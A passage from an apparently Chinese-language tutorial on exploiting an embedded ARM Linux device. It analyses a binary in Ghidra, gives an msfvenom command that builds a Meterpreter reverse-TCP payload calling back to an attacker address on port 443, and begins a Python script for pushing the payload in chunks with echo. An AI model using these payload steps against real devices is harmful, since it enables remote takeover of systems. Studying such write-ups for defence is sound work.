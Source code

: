 通过 `Ghidra` 进行分析

> https://github.com/NationalSecurityAgency/ghidra

直接将文件拖进 `Ghidra` 就可以了，此步骤建议在虚拟机中进行

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

![图片](assets/1710993392-734d5146f2a303a1e35750fc7ecd0844.png)

可以看到，显示的都是 `LE` ，小端

接下来通过 `msfvenom` 生成 payload

```plain
msfvenom -p linux/armle/meterpreter/reverse_tcp -a armle RHOST=192.168.1.125 RPORT=443 --platform linux -f elf -o payload.elf
```

只有 344 个字节大小

#### 2) 通过 echo 写入到服务器

通过之前的部分我们可以知道，攻击数据包是有大小限制的，具体限制是多少还不是固定的，每种设备不一样

我们可以通过下面的脚本进行粗略测试

```plain
import requests
import sys
import urllib.parse

# 构建请求头部
headers = {
    'User-Agent': 'python-requests/2.22.0',
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Connection': 'close',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
}
```
